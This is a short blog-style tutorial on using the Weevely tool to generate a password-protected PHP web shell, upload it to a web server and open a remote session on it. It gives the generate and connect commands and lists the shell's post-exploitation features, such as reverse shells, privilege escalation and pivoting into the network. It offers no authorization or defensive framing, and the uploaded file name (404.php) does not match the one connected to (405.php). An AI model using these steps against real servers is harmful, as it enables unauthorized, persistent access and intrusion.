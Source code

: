 ```yaml
---
layout: post
title: PHP backdoor with Weevely
---
```


In this tutorial we will create a backdoor by uploading PHP file on the server and gaining a backdoor.

Weevely comes pre-installed on kali-linux.

Some other features of weevely include:

•	Shell access to the target
•	SQL console pivoting on the target
•	HTTP proxy pivoting on the target
•	Upload and download files
•	Spawn reverse and direct TCP shells
•	Audit remote target security
•	Run Meterpreter payloads
•	Port scan pivoting on target
•	Mount the remote filesystem
•	Bruteforce SQL accounts pivoting on the target


Weevely is a web shell designed for post-exploitation purposes that can be extended over the network at runtime.

Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.


How to Generate a PHP Backdoor using Weevely?
 
weevely generate <password> <path>

![](/images/2020-1-28-weevely/1.png)

Upload the 404.php to the sever. 


![](/images/2020-1-28-weevely/2.png)


To establish the session: 

weevely http://192.168.1.107/405.php 0xcf

![](/images/2020-1-28-weevely/3.png)


